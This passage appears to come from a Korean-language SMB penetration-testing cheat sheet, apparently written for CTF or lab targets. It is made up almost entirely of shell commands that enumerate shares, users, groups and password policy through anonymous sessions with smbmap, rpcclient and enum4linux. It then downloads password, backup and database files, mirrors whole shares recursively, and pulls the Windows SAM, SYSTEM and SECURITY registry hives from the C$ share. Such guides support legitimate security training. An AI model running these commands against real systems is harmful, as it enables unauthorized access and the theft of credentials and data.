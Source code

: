 ```bash
# smbmap으로 권한 확인
smbmap -H {IP} -R
smbmap -H {IP} -R Shared
```

### 👥 사용자 열거 (익명 접근 성공시)

```bash
# rpcclient로 사용자 열거
rpcclient -U "" -N {IP}
# 연결 성공시:
enumdomusers
enumdomgroups
querydominfo
srvinfo

# 특정 사용자 정보 조회
queryuser 500
queryuser 501
queryuser 1000

# enum4linux로 종합 정보 수집
enum4linux -U {IP}  # Users
enum4linux -S {IP}  # Shares
enum4linux -G {IP}  # Groups
enum4linux -P {IP}  # Password Policy
enum4linux -a {IP}  # All

# 사용자 목록을 파일로 저장
enum4linux -U {IP} | grep "user:" | cut -d[ -f2 | cut -d] -f1 > users.txt
```

### 🗂️ 파일 시스템 접근 (공유 접근 가능시)

```bash
# 중요 파일 다운로드
smbclient //{IP}/Shared -N
get passwords.txt
get backup.zip
get config.xml
get database.sql

# 재귀적 다운로드
recurse on
prompt off
mget *

# 특정 확장자 파일 검색
find . -name "*.txt"
find . -name "*.xml"
find . -name "*.config"
find . -name "*.bak"

# Windows 중요 파일 접근 시도
smbclient //{IP}/C$ -N
get Windows/System32/config/SAM
get Windows/System32/config/SYSTEM
get Windows/System32/config/SECURITY

# 사용자 프로필 접근
cd Users
ls
cd Administrator
get Desktop/flag.txt
```